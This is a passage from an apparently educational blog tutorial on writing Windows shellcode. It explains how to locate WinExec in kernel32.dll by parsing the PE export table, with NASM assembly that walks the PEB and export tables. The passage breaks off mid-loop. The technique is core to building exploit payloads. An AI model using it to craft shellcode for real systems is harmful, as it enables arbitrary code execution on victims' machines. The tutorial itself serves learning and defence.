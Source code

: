 13. Find `WinExec` ordinal number from the `Ordinal Table` (address of `Ordinal Table` + (position * 2) bytes). Each entry in the `Ordinal Table` is 2 bytes.
14. Find the function RVA from the `Address Table` (address of `Address Table` + (ordinal_number * 4) bytes). Each entry in the `Address Table` is 4 bytes.
15. Find the function address (base address + function RVA)

I doubt anyone understood this, so I again made some animations.

![locate_function1](https://idafchev.github.io/blog/assets/images/windows_shellcode/locate_function1.gif){: .align-center}  

And from [PEView](http://wjradburn.com/software/) to make it even more clear.

![locate_function2](https://idafchev.github.io/blog/assets/images/windows_shellcode/locate_function2.gif){: .align-center}  


The assembly to do this is:
```nasm
; Establish a new stack frame
push ebp
mov ebp, esp

sub esp, 18h 			; Allocate memory on stack for local variables

; push the function name on the stack
xor esi, esi
push esi			; null termination
push 63h
pushw 6578h
push 456e6957h
mov [ebp-4], esp 		; var4 = "WinExec\x00"

; Find kernel32.dll base address
mov ebx, fs:0x30
mov ebx, [ebx + 0x0C] 
mov ebx, [ebx + 0x14] 
mov ebx, [ebx]	
mov ebx, [ebx]	
mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
mov [ebp-8], ebx 		; var8 = kernel32.dll base address

; Find WinExec address
mov eax, [ebx + 3Ch]		; RVA of PE signature
add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
mov eax, [eax + 78h]		; RVA of Export Table
add eax, ebx 			; Address of Export Table

mov ecx, [eax + 24h]		; RVA of Ordinal Table
add ecx, ebx 			; Address of Ordinal Table
mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

mov edi, [eax + 20h] 		; RVA of Name Pointer Table
add edi, ebx 			; Address of Name Pointer Table
mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

mov edx, [eax + 1Ch] 		; RVA of Address Table
add edx, ebx 			; Address of Address Table
mov [ebp-14h], edx 		; var20 = Address of Address Table

mov edx, [eax + 14h] 		; Number of exported functions

xor eax, eax 			; counter = 0

.loop:
        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
```